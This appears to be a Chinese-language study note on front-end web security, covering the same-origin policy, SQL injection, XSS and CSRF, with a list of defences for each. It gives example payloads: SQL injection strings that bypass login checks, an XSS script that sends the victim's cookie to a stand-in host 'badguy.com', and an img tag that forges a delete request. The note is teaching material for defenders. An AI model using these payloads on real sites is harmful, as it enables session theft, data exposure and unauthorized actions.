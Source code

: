 #前端安全
> 攻击者主要是通过攻击获取用户信息，或者伪造用户操作达到特殊目的
> 首先关键数据的传输要进行加密处理，不能直接明文发送，以免被代理抓取
> 然后要对用户的输入内容做到充分的校验

##同源策略
> 浏览器的同源策略限制从一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
> 如果协议、端口和主机相同则认为是同源。

##sql注入
> sql注入就是通过前端的请求将sql片段作为参数传入到后台，后台通过参数拼接出非预定sql
> 最终达到欺骗服务器执行恶意sql命令；

	例如下面这个请求
	order/list?id=100
	在服务器端会进行如下查询并返回结果
	SELECT * FROM orders WHERE id='100'
	我们的对请求地址做一个修改
	order/list?id=100'or'1'='1'
	那么执行的sql就变成了这个样子
	SELECT * FROM orders WHERE id='100' or '1'='1'
	所以全部数据都拿到了

	例如登录验证
	SELECT * FROM users where name='lee' and pwd='123456' and code='1234';
	我们随便输入一个用户名、密码留空，验证码输入 'or 1=1--
	SELECT * FROM users where name="xxx" and pwd="and code=" or 1=1--';
	这样随意输入一个用户名都可以登录成功

> sql注入的应对

1. 永远不要相信用户的输入
2. 也不要相信客户端的验证
3. 错误信息处理，不要把服务端的错误信息透露给用户
4. 不要使用管理员权限连接数据库
5. 敏感信息不要明文存储，要加密保存


##XSS
> 跨域脚本攻击(cross-site scripting)
> 主要用于获取用户信息
> 攻击原理是将用户的输入转化为了代码

攻击场景一 Dom-Based XSS

	// http://victim.com网站 后台代码
	<html>
	　　<title></title>
	　　<body>
	　　　　Results  for  <%Reequest.QueryString("term")%>
	　　　　...
	　　</body>
	</html>
	// 攻击
	// step1 建立后台用来偷取用户信息
	http://badguy.com
	// step2 发送恶意链接，可以通过邮件 qq等
	http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
	// 这时只要用户点击这个连接，那么生成的页面中就包含可以指向的代码片段
	<script>window.open("http://badguy.com?cookie="+document.cookie)</script>
	// 这个代码自动运行把用户的cookie发送到了攻击者的网站


> 预防策略是对用户的输入做`encode`处理，将其中的`<`、`>`、`'`、`"`、`;`之类的特殊字符进行编码

1. 将重要的cookie标记为http only,   这样的话Javascript 中的document.cookie语句就不能获取到cookie了.
2. 只允许用户输入我们期望的数据。 例如：　年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
3. 对数据进行Html Encode 处理
4. 过滤或移除特殊的Html标签， 例如: <script>, <iframe> ,  &lt; for <, &gt; for >, &quot for
5. 过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。


##CSRF
> 跨站请求伪造(Cross-Sit-Request-Forgery)
> 主要用于伪造用户操作，向服务器发送自动请求

攻击场景

	// http://demo.com/list/delete?id=10
	// 此链接为用户网站删除列表数据请求，只做用户登录验证，
	// 那么我们可以在邮件中插入一张图片，
	<img src='http://demo.com/list/delete?id=10'/>
	// 那么只要用户点击这个连接，并且登录了该网站，那么这次攻击就成功了
	// 同样的利用img script iframe等不受同源限制的标签都可以实现CSRF攻击

> 预防CSRF

1. 使用POST请求代替GET请求
2. 检查报头中的Referer参数确保请求发自正确的网站（但XHR请求可调用setRequestHeader方法来修改Referer报头）；
3. 对于任何重要的请求都需要重新验证用户的身份；
4. 创建一个唯一的令牌（Token），将其存在服务端的session中及客户端的cookie中，对任何请求，都检查二者是否一致。



##参考文献
[Web安全测试之XSS](http://www.cnblogs.com/TankXiao/archive/2012/03/21/2337194.html)
[浅谈WEB安全性（前端向）](http://www.2cto.com/Article/201412/363743.html)